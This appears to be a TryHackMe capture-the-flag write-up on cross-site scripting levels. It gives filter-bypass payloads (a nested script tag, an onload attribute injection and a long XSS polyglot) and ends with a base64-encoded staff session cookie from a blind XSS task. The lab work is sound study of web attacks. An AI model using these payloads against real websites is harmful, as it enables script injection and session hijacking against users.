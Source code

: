 **Level Five**

This has a filter we have to bypass

Original Payload:
``<sscriptcript>alert('THM');</sscriptcript>``

Final Payload (after passing the filter):
``<script>alert('THM');</script>```


**Level Six**

Characters are filtered such as < and > we can get around this by using ``/images/cat.jpg" onload="alert('THM');`` as a payload.

**Polyglots:**

An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one. You could have used the below polyglot on all six levels you've just completed, and it would have executed the code successfully.

``jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e``

##  Task 8 Box Example (Blind XSS) 

This will only work on the Tryhackme attack box.

c3RhZmYtc2Vzc2lvbj00QUIzMDVFNTU5NTUxOTc2OTNGMDFENkY4RkQyRDMyMQ


